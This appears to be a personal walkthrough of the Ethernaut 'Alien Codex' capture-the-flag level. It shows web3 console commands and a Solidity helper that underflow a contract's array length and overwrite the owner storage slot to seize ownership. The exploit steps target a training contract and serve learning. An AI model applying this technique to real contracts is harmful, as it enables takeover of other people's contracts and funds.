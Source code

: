 # 19. Alien Codex
Difficulty 7/10

from: https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925
you can view contract storage using web3
`await web3.eth.getStorageAt([contractAddress],[index])`

using `await contract.make_contact()`
then `await web3.eth.getStorageAt('[contract address]', 0)`

we get: `0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272`

which shows:
`0x000000000000000000000001` is contact = true
and `da5b3fb76c78b6edee6be8f11a1c31ecfb02b272` is the owner address, confirmed by using `await contract.owner()`

I tried using retract() to underflow the codex storage, which was able to overwrite storage slot 1, but could not access slot 0, which is where the owner address is stored.  

I found the solution at https://ylv.io/ethernaut-alien-codex-solution/  
It looks like this was written in 2018 by Igor Yalovoy and the level has changed since then. We abuse the `revise` function to overwrite the storage slot holding the owner address. Since EVM storage size is 2^256-1 slots and the array starts at `keccak256(bytes32(1))`, we subtract total storage - array start -1 to get the storage slot containg owner address.  

making some changes to Igor Yalovoy's code to match the current level (1/14/22):
```
pragma solidity ^0.5.0;

contract Calc {
    
    bytes32 public one;
    uint public index;
    uint public length;
    bytes32 public lengthBytes;
    
    function getIndex() public returns (uint) {
        one = keccak256(abi.encodePacked(bytes32(uint256(1))));
        index = 2 ** 256 - 1 - uint(one) + 1;
        return index;
    }
}
```
gives us `35707666377435648211887908874984608119992236509074197713628505308453184860938` as the location in storage for the contract owner.  

using the console, we start the `underhanded` approach by using an underflow attack on the size of the codex array.  

using the console:  
`await contract.retract()`

then:  
`await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x000000000000000000000000[player address]', {from:player, gas: 900000});`


**END** looked up solution
This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)